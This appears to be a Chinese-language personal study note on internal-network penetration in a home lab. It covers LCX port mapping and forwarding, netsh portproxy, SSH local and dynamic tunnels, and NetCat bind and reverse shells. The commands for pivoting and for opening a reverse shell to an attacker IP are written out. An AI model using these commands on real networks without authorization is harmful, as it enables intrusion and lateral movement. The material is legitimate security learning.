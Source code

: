 # 内网渗透
**介绍：**  攻击者通过边界主机进入内网，往往会利用它当跳板进行横向渗透，但现在的内部网络大多部署了很多安全设备，网络结构错综复杂，对于某些系统的访问会受到各种阻挠，这就需要借助代理去突破这些限制，因此面对不同的网络环境对于代理的选择及使用显得格外重要。  
**情景介绍：** 我的本地机子网段为10开头的看成公网，电脑中装有虚拟机网段为192网段看成内网

## 端口转发和端口映射
&ensp;&ensp;端口转发，有时被称为做隧道，是安全壳（SSH）为网络安全通信使用的一种方法。简单来说，端口转发就是将一个端口收到的流量转发到另一个端口。端口映射是NAT的一种，功能是把在公网的地址转成私有地址。简单来说，端口映射就是将一个端口映射到另一个端口供他人使用。
1. LCX工具  
    &ensp;&ensp;LCX是一款端口转发工具，分为Windows版和Linux版，Linux版本为PortMap。  
    命令：
    ```
    D:\常用文件\工具\网络工具\内网渗透\lcx.exe -<listen|tran|slave> <option> [-log logfile]
    [option:]
    端口转发
    -listen <监听slave请求的端口> <等待链接的端口>     #在外网电脑上执行
    -slave <外网IP> <监听端口> <目标IP>> <目标端口>    #在外网电脑上执行
    端口映射
    -tran   <等待链接的端口> <目标IP> <目标端口>
    ```
    &ensp;&ensp;推荐使用端口映射命令，端口转发命令需要在内网主机和外网主机都要执行，并且不稳定，我没有实验成功。端口映射只要在外网主机执行，
    实操
    &ensp;&ensp;端口映射:在外网主机输入`lcx.exe -tran 2222 192.168.200.40 3389 `，把192网段的主机的3389端口映射到本机的2222端口，访问2222端口相当于访问192网段的3389端口  
    ![端口映射](https://raw.githubusercontent.com/myzyzy/my-log/image/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8Fimage/%E7%AB%AF%E5%8F%A3%E6%98%A0%E5%B0%84.png)  
    &ensp;&ensp;端口转发：在内网主机输入命令`lcx.exe -slave 10.1.38.70 3333 192.168.200.40 3389 `,在外网主机执行命令`lcx.exe -listen 3333 2222 ` 把 内网主机转发的3333端口的流量转到2222端口  
    ![端口转发内网](https://raw.githubusercontent.com/myzyzy/my-log/image/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8Fimage/lcx%E5%86%85%E7%BD%91.PNG)  
    ![端口转发外网](https://raw.githubusercontent.com/myzyzy/my-log/image/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8Fimage/%E5%A4%96%E7%BD%91%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91.png)  
2. windows自带命令  
   [参考博客](https://zhuanlan.zhihu.com/p/266473873)

   Windows 从 Windows 2000 开始就提供了最基本的端口转发功能，是基于 Windows 的`IP Helper`服务的，不仅可以提供端口转发功能，还可以通过将 IPv4 和 IPv6 的不同地址的数据进行转发，但是只可以转发 TCP 协议，暂不支持 UDP 协议，使用`netsh interface portproxy`命令即可开启。  
   **命令帮助**
   ```
    PS C:\Windows\system32> netsh interface portproxy
    下列指令有效:
    此上下文中的命令:
    ?              - 显示命令列表。
    add            - 在一个表格中添加一个配置项。
    delete         - 从一个表格中删除一个配置项。
    dump           - 显示一个配置脚本。
    help           - 显示命令列表。
    reset          - 重置端口代理配置状态。
    set            - 设置配置信息。
    show           - 显示信息。
   ```
   查看所有的端口转发规则`netsh interface portproxy show all`  
   **添加规则帮助**
   ```
    add v4tov4     - 添加通过 IPv4 的 IPv4 和代理连接到的侦听项目。
    add v4tov6     - 添加通过 IPv6 的 IPv4 和代理连接到的侦听项目。
    add v6tov4     - 添加通过 IPv4 的 IPv6 和代理连接到的侦听项目。
    add v6tov6     - 添加通过 IPv6 的 IPv6 和代理连接到的侦听项目。
    ​
    用法: add v4tov4 [listenport=]<integer>|<servicename>
                [connectaddress=]<IPv4 address>|<hostname>
                [[connectport=]<integer>|<servicename>]
                [[listenaddress=]<IPv4 address>|<hostname>]
                [[protocol=]tcp]
    ​
    参数:
    ​
            标记            值
            listenport      - IPv4 侦听端口。
            connectaddress  - IPv4 连接地址。
            connectport     - IPv4 连接端口。
            listenaddress   - IPv4 侦听地址。
            protocol        - 使用的协议。现在只支持 TCP。
   ```
   添加规则  
   `
   netsh interface portproxy add v4tov4 listenaddress=127.0.0.1 listenport=3389 connectaddress=<目标IP> connectport=3389
   `  
   把目标IP的3389端口转发到本机  
   **delete命令**
   ```
    delete v4tov4  - 删除通过 IPv4 的 IPv4 和代理连接到的侦听项目。
    delete v4tov6  - 删除通过 IPv6 的 IPv4 和代理连接到的侦听项目。
    delete v6tov4  - 删除通过 IPv4 的 IPv6 和代理连接到的侦听项目。
    delete v6tov6  - 删除通过 IPv6 的 IPv6 和代理连接到的侦听项目。
    ​
    用法: delete v4tov4 [listenport=]<integer>|<servicename>
                [[listenaddress=]<IPv4 address>|<hostname>]
                [[protocol=]tcp]
    ​
    参数:
    ​
            标记             值
            listenport     - 要侦听的 IPv4 端口。
            listenport     - 要侦听的 IPv4 地址。
            protocol       - 要使用的协议。当前仅支持 TCP。
   ```
   **删除规则**
   `
   PS C:\Windows\system32> netsh interface portproxy delete v4tov4 listenaddress=127.0.0.1 listenport=3389
   `

## 使用SSH端口转发  
1. 本地转发  
&ensp;&ensp;设攻击者已经拿下了公网主机，并且通过主机A获取到了内网主机IP和端口信息，但是攻击者从攻击机无法直接访问内网，公网主机安装了SSH服务端，这时攻击者便可通过SSH协议连接到公网主机，再通过公网主机做跳板，连接内网主机。命令`ssh -L <本机IP>:<本地端口>:<目的IP>:<目的IP端口> -fN <跳板主机地址>`，命令在攻击机上执行。
2. 动态转发  
&ensp;&ensp;动态转发指的是，本机与 SSH 服务器之间创建了一个加密连接，然后本机内部针对某个端口的通信，都通过这个加密连接转发。它的一个使用场景就是，访问所有外部网站，都通过 SSH 转发。
动态转发需要把本地端口绑定到 SSH 服务器。至于 SSH 服务器要去访问哪一个网站，完全是动态的，取决于原始通信，所以叫做动态转发。  
`ssh -D <本地端口> -CfNg <ssh服务器地址> `  
这种转发采用了 SOCKS5 协议，可以在客户端配置代理通过shh服务器访问服务。  

## 反弹shell
&ensp;&ensp;NetCat简称NC，是一个简单、可靠的网络工具，被誉为网络界的瑞士军刀。通过NC可以进行端口扫描、反弹Shell、端口监听和文件传输等操作.Centos8自带NetCat.
1. 正向shell
&ensp;&ensp;命令需要在两个能互相访问的的主机上运行。在目标机上输入`nc -lvvp <端口> -e /bin/bash`(在linux下，如果是windows则需要把`/bin/bash`换成cmd.exe程序的路径)，注意开放目标机上的端口，然后在攻击机上输入`nc <目标机的IP> <目标机端口>`
* 实操
**目标机**
![正向目标nc](https://raw.githubusercontent.com/myzyzy/my-log/image/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8Fimage/%E6%AD%A3%E5%90%91%E7%9B%AE%E6%A0%87nc.PNG)  
**攻击机**
![正向攻击nc](https://raw.githubusercontent.com/myzyzy/my-log/image/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8Fimage/%E6%AD%A3%E5%90%91%E6%94%BB%E5%87%BBnc.PNG)  
1. 反向shell
&ensp;&ensp;当目标机可访问外网时，可先在攻击机监听某一端口，然后从目标机连接此端口反向反弹Shell。在攻击机上输入`nc -lvvp <端口>`(监听某个端口)，在目标机上输入`nc -e /bin/bash <攻击机IP> <攻击机开放的端口>`，我感觉反向shell类似于钓鱼。
* 实操
**攻击机**  
![反向shell攻击nc](https://raw.githubusercontent.com/myzyzy/my-log/image/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8Fimage/%E5%8F%8D%E5%90%91shell%E6%94%BB%E5%87%BBnc.PNG)  
**目标机**  
![反向shell目标nc](https://raw.githubusercontent.com/myzyzy/my-log/image/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8Fimage/%E5%8F%8D%E5%90%91shell%E7%9B%AE%E6%A0%87nc.PNG)  
**攻击机** 
之后弹出
![反向shell攻击nc运行后](https://raw.githubusercontent.com/myzyzy/my-log/image/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8Fimage/%E5%8F%8D%E5%90%91shell%E6%94%BB%E5%87%BBnc%E8%BF%90%E8%A1%8C%E5%90%8E.PNG)  
